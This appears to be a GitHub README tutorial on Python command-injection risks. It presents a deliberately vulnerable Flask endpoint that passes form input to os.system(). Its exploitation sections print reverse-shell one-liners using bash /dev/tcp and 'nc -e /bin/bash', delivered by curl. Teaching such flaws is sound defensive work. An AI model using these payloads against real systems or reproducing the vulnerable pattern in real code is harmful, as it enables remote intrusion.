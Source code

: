 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code. 

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

| Function | Description | Misconfiguration |
| :---: | :---: | :---: |
| os.system() | Python function() that allows the execution of shell commands | If a Web API route accepts user-controlled data that doesn't get escaped and filtered and passes it to os.system(), it will attempt to execute the input received as a shell command, allowing the Web API route paramater to be abused for unintended code execution |

Below is a basic example of how this function() can be used. The function() itself is not evil, but passing unsanitized user input to the function() could be dangerous and lead to code execution. Always ensure to pass data to os.system() that is validated, escaped and required for it's intended functionality.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
curl -X POST -d "request=test" http://10.10.10.10:5000/api
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
Explioting the web app

Payload: nc -e /bin/bash 10.10.5.10 9999 | Can be replaced by any other form of RCE. Ensure to base64 or URL encode the payload

```
curl -x POST -d "request=nc -e /bin/bash 10.10.5.10 9999" http://10.10.10.10:5000/api
```
Web app breakdown:

| Function | Description | 
| :---: | :---: | 
| #!/usr/bin/python | Forcing the web app to use my built in python path |
| import os | Importing the os library to use it's functionality such as calling os.system() |
| Flask | Micro Web Framework Written to run the web application  |
| @app.route | Specifies the internal web app route to the location on the web server where it receives input  |
| /api | The actual route on the web server (Web API Route) |
| POST | Enforces that the route accept only HTTP POST requests |
| data | Variable that stores input the web app receives |
| os.system() | Function that allows the execution of shell commands |
| request | Parameter in the /api route that accepts input via HTTP POST requests |
| print(data) | Print the input received via the web API route , wrapped around os.system() that allows code execution |
